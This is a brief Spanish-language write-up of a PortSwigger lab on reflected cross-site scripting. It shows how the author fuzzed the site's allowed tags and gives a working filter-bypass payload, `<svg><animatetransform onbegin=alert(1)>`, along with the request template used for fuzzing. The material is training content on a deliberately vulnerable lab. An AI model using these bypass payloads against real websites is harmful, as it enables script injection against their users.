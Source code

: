 # 5 - SVG markup allowed

> This lab has a simple [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability. The site is blocking common tags but misses some SVG tags and events.
>
>  To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that calls the `alert()` function.



![](../../../.gitbook/assets/imagen%20%28682%29.png)

Luego vemos tags validas 

![](../../../.gitbook/assets/imagen%20%28679%29.png)

Luego editamos nuestro ataque:

```text
GET /?search=<svg><animatetransform%20§§=1> HTTP/1.1
```

Como permite svg permite rendirazar lo que esta dentro, en ese renderizado ejecuta etiquetas \(como animate que esta permitida\). Ahora con eso veremos que podemos incluir dentro, nos fijamos que eventos soportaa.

![](../../../.gitbook/assets/imagen%20%28678%29.png)



```text
<svg><animatetransform onbegin=alert(1)>
```

Buscamos eso y listo.

